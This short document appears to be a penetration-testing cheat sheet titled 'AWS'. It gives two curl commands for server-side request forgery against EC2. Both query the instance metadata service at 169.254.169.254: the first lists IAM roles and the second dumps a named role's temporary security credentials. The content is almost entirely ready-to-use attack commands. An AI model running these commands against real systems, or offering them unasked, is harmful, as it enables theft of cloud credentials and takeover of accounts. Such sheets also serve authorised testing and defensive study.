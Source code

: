 # AWS

% aws

## SSRF in EC2 - List roles
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

## SSRF in EC2 - Dump roles
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

